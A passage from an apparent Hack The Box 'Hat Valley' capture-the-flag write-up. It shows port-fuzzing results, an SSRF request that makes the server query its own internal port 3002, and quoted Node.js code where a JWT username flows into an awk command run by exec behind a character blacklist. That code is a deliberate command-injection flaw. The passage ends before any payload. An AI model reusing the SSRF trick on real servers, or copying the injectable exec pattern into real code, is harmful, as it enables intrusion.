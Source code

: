 - Output:
```bash
00080:  C=200      8 L	      13 W	    132 Ch	  "80"
03002:  C=200    685 L	    5834 W	  77002 Ch	  "3002"
08080:  C=200     54 L	     163 W	   2881 Ch	  "8080"
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230121233456.png)

- Now that we know this we can visit:
```bash
http://hat-valley.htb/api/store-status?url="http://localhost:3002"
```

- We are going to be interested in the `/api/all-leave` endpoint.
```js
app.get('/api/all-leave', (req, res) => {
  const user_token = req.cookies.token
  var authFailed = false
  var user = null
  if(user_token) {
    const decodedToken = jwt.verify(user_token, TOKEN_SECRET)
    if(!decodedToken.username) {
      authFailed = true
    }
    else {
      user = decodedToken.username
    }
  }
  if(authFailed) {
    return res.status(401).json({Error: "Invalid Token"})
  }
  if(!user) {
    return res.status(500).send("Invalid user")
  }
  const bad = [";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"]

  const badInUser = bad.some(char => user.includes(char));

  if(badInUser) {
    return res.status(500).send("Bad character detected.")
  }

  exec("awk '/" + user + "/' /var/www/private/leave_requests.csv", {encoding: 'binary', maxBuffer: 51200000}, (error, stdout, stderr) => {
    if(stdout) {
      return res.status(200).send(new Buffer(stdout, 'binary'));
    }
    if (error) {
      return res.status(500).send("Failed to retrieve leave requests")
    }
    if (stderr) {
      return res.status(500).send("Failed to retrieve leave requests")
    }
  })
})
```
